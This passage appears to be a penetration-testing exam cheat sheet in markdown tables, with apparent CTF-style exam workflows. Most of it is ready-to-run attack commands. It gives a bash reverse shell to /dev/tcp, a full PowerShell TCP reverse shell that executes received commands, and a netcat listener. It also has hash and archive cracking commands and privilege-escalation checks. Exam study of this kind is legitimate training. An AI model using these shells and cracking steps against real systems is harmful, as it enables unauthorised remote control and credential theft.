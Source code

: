 | **Reverse Shell (Linux)** | `bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1'` | Spawn a reverse shell |
| **Reverse Shell (Windows)** | `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<YOUR_IP>',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 \| Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` | Spawn a PowerShell reverse shell |
| **Listener** | `nc -nvlp 4444` | Listen for incoming reverse shells |

#### **3. Password Attacks**

| Task | Command | Purpose |
| :--- | :--- | :--- |
| **Hash Identification** | `hash-identifier` | Identify hash types (e.g., MD5, SHA1, NTLM) |
| **Crack MD5** | `hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt` | Crack hashes with wordlist |
| **Crack /etc/shadow** | `unshadow passwd.txt shadow.txt > hashes.txt` `john hashes.txt` | Crack Linux password hashes |
| **Crack Zip/RAR** | `fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip` | Crack archived files |

#### **4. Post-Exploitation**

| Task | Command | Purpose |
| :--- | :--- | :--- |
| **Upgrade Shell** | `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Stabilize a shell |
| **Find SUID files** | `find / -perm -u=s -type f 2>/dev/null` | Find files with SUID bit set (privesc) |
| **Find files with CAP** | `getcap -r / 2>/dev/null` | Find files with capabilities (privesc) |
| **Check crontab** | `cat /etc/crontab` | Look for scheduled jobs (privesc) |
| **LinPEAS** | Often pre-downloaded. Run it: `./linpeas.sh` | Automatic Linux Privilege Escalation scanner |

---

### **Common Exam Scenarios & How to Approach Them**

1.  **"Find the flag on the server / website":**
    *   **Step 1:** `nmap` to find open ports (80, 443, 8080?).
    *   **Step 2:** Browse to the website. `View Source`. Check for comments.
    *   **Step 3:** Run `gobuster`/`dirb` to find hidden directories (`/admin`, `/backup`, `/secret`).
    *   **Step 4:** Check for common files (`robots.txt`, `sitemap.xml`, `index.php.bak`).

2.  **"Gain access to the system / Find a user flag":**
    *   **Step 1:** Comprehensive `nmap -A` scan.
    *   **Step 2:** Check web apps for SQLi, File Upload, Command Injection.
    *   **Step 3:** Check for vulnerable services (e.g., FTP anonymous login, SMB shares with `smbclient`).
    *   **Step 4:** If you get a low-privilege shell, **immediately try to escalate privileges** using the commands above or `linpeas`. The user flag is often in `/home/<user>/user.txt`.

3.  **"Escalate your privileges / Find the root flag":**
    *   This *will* be on the exam.
    *   **Run LinPEAS.** It's the fastest way.
    *   Manually check: `sudo -l`, SUID files, crontab, kernel version (for known exploits), writable system files.
    *   The root flag is almost always in `/root/root.txt`.

